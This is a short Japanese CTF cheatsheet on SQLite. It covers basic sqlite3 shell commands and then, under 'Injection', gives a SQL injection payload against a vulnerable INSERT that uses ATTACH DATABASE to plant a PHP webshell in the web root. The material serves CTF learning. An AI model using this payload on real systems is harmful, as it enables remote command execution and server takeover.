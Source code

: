 ```yaml
---
layout: post
published : true
title: "SQLite"
permalink: /ctf/cheatsheets/sqlite
tags: CTF Common cheatsheet SQLite
---
```

## 基本
### 対話シェルで起動
```sh
$ sqlite3 database.db
```
### シェルに直接SQLの結果を返す
```sh
$ sqlite3 database.db 'select * from users;'
```
### テーブル一覧の表示
```sh
sqlite> .table
```

## Injection

### Webshell(PHP)
ターゲットが以下のとき、
```sql
INSERT INTO subscribers (ip_address, email) VALUES('$foo', '$bar')
```
以下のようにする。
```sql
xxx','yyy');ATTACH DATABASE '/www/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']) ?>");--
```